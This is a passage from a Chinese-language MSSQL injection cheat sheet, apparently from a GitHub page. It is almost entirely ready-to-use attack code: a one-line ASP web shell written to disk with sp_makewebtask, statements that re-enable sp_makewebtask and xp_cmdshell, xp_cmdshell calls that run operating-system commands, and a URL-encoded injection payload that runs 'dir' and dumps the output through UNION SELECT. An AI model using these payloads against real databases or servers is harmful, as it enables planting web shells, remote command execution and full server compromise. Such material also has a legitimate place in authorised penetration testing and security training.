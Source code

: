 *0x3C25657865637574652872657175657374282261222929253E = <%execute(request("a"))%>

#### sp_makewebtask 备份(需sa权限)

```
exec sp_makewebtask 'c:\shell.asp',' select ''<%25execute(request("a"))%25>'' ';

```

注：sp_makewebtask存储过程在MSSQL 2005及以上版本中默认是禁用的

激活 sp_makewebtask存储过程的语句:

```
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Web Assistant Procedures',1;RECONFIGURE;  

```

### 系统命令执行

#### 1. 使用xp_cmdshell存储过程执行操作系统命令。

```
EXEC master.dbo.xp_cmdshell 'cmd';

```

`xp_cmdshell`存储过程在MSSQL 2005及以上版本中默认是禁用的.

激活`xp_cmdshell`存储过程的语句:

```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

```

检查是否xp_cmdshell是否加载，如果是,将继续检查是否处于活动状态，然后继续执行“DIR”命令并将结果插入到TMP_DB表中：

#### 示例：

```
' IF EXISTS (SELECT 1 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME='TMP_DB') DROP TABLE TMP_DB DECLARE @a varchar(8000) IF EXISTS(SELECT * FROM dbo.sysobjects WHERE id = object_id (N'[dbo].[xp_cmdshell]') AND OBJECTPROPERTY (id, N'IsExtendedProc') = 1) BEGIN CREATE TABLE %23xp_cmdshell (name nvarchar(11), min int, max int, config_value int, run_value int) INSERT %23xp_cmdshell EXEC master..sp_configure 'xp_cmdshell' IF EXISTS (SELECT * FROM %23xp_cmdshell WHERE config_value=1)BEGIN CREATE TABLE %23Data (dir varchar(8000)) INSERT %23Data EXEC master..xp_cmdshell 'dir' SELECT @a='' SELECT @a=Replace(@a%2B'<br></font><font color="black">'%2Bdir,'<dir>','</font><font color="orange">') FROM %23Data WHERE dir>@a DROP TABLE %23Data END ELSE SELECT @a='xp_cmdshell not enabled' DROP TABLE %23xp_cmdshell END ELSE SELECT @a='xp_cmdshell not found' SELECT @a AS tbl INTO TMP_DB--

```

转储内容:

```
' UNION SELECT tbl FROM TMP_DB--

```
